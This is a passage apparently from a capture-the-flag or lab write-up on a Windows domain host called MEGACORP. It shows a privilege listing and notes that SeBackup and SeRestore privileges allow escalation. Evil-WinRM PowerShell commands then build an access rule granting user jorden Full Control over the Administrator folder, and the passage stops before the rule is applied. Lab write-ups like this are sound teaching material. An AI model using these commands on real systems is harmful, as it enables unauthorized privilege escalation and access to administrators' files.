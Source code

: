 ```text
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

This user has backup and restore privileges, which if I remember correctly is a quick and easy path to escalate privileges "This privilege causes the system to grant all read access control to any file \(only read\)."

[https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea\_Pierini-Whoami\_Priv\_Show\_Me\_Your\_Privileges\_And\_I\_Will\_Lead\_You\_To\_System.pdf](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

> If you have SeBackup& SeRestoreprivileges\(Backup Operators group\) you can set permissio nand ownership on each file & folder =WIN!

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = MEGACORP\jorden
The module 'MEGACORP' could not be loaded. For more information, run 'Import-Module MEGACORP'.
At line:1 char:9
+ $user = MEGACORP\jorden
+         ~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (MEGACORP\jorden:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CouldNotAutoLoadModule
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = 'MEGACORP\jorden'
*Evil-WinRM* PS C:\Users\jorden\Documents> cd c:\
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  12:41 PM                DFSRoots
d-----         1/7/2020   7:23 PM                inetpub
d-----        9/25/2019   5:01 AM                PerfLogs
d-r---         1/9/2020   1:18 PM                Program Files
d-----         1/9/2020   1:18 PM                Program Files (x86)
d-r---         1/9/2020   5:14 PM                Users
d-----         1/9/2020   2:39 PM                Windows


*Evil-WinRM* PS C:\> $folder = 'C:\Users\Administrator'
*Evil-WinRM* PS C:\> $acl = Get-ACL $folder
*Evil-WinRM* PS C:\> $aclperms = $user, "Full Control", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
```